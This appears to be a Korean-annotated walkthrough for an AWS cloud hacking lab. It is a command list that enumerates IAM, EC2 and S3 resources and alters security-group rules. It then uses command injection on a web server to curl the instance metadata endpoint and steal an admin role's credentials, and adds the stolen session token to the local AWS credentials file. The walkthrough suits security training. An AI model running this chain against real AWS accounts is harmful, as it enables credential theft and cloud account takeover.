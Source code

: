 
`cat start.txt`
`aws configure --profile [시작사용자]`

`aws --profile [사용자] sts get-caller-identity`

`aws --profile [사용자] iam list-user-policies --user-name [user_name]`

`aws --profile [사용자] iam get-user-policy --user-name [user_name] --policy-name [정책이름]`

`aws --profile [사용자] iam list-attached-user-policies --user-name [user_name]`

`aws ec2 describe-instances --profile [시작사용자]`

`http://ec2주소`

`aws ec2 descrbe-security-groups --profile [시작사용자]`

`aws s3 ls --profile [시작사용자]`

`aws s3 ls s3://[버킷이름]/ --profile [시작사용자]`
`aws s3 cp s3://[버킷이름]/[텍스트파일].txt --profile [시작사용자]`
`cat [텍스트파일].txt`

`aws configure --profile [ec2 방화벽 관리자]`

`aws --profile [사용자] iam list-user-policies --user-name [ec2 방화벽 관리자]`

`aws --profile [ec2 방화벽 관리자] iam get-user-policy --user-name [user_name] --policy-name [정책이름]`

`aws ec2 revoke-security-group-ingress --group-id <security group id> --protocol <tcp/udp> --port <port number> --cidr <cidr>`
`aws ec2 authorize-security-group-ingress --group-id <security group id> --protocol <tcp/udp> --port <port number> --cidr <cidr>`

`aws ec2 reboot-instances --instance-ids [인스턴스 id] --profile [ec2 방화벽 관리자]`

`aws ec2 describe-instances --profile [시작사용자]`

`http://ec2주소`

`http://ec2주소?cmd = curl http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_admin_role`

`aws configure --profile [aws 관리자]`
`echo "aws_session_token = {얻은 토큰}" >> ~/.aws/credentials`

`aws --profile [사용자] sts get-caller-identity`

`aws iam list-attached-role-policies --role-name [role_name] --profile [aws 관리자]`
